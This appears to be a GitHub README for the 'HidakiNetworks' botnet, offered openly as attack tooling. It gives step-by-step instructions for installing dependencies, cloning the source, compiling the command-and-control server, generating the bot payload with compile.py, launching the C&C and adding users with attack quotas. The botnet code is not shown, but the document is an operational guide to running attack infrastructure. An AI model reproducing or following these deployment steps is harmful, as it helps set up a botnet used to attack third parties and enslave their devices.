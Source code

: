# HidakiNetworks
<p>
<img src="https://cdn.discordapp.com/attachments/1156506398323130368/1233875286865477632/hidaki_screen_1.png">
</p>

this is a source of [HidakiNetworks](https://t.me/hidakiteam) botnet\
Tested on Debian 10, 11 and Ubuntu 18.04, 20.04

## Connecting to cnc
You must connect using raw connection type (putty)

## Installing
Guide for Ubuntu/Debian\
**Installing dependencies**
```bash
apt update && apt upgrade -y
apt install libbz2-1.0 libc6 liblzma5 perl zlib1g bzip2 python2 python -y
apt install nano screen gcc wget libzip-dev unzip git apache2 -y
```

**Copy sources**\
You must put sources into the /root directory!!
```bash
cd /root
git clone https://github.com/shittzuka/hidaki.git
mv hidaki/* /root
rm README.md
```

**Building sources**
```bash
gcc server.c -o srv -pthread
python2 compile.py
```
You will get payload from compile.py

**Starting cnc**
```bash
chmod 777 *
screen ./srv 4258 1 <cnc port here>
```

## Adding users
For adding user, you must add a string in users/login.txt.\
<name> <pass> <group> <time> <cooldown> <attacks> <expire>
Example: root shittzukamygod admin 9999 3 10 99/99/9999

## Credits
[HidakiTeam](https://t.me/hidakiteam) - Created botnet\
[sh!ttzuka](https://t.me/tnkwa) - Added sources on Git ;D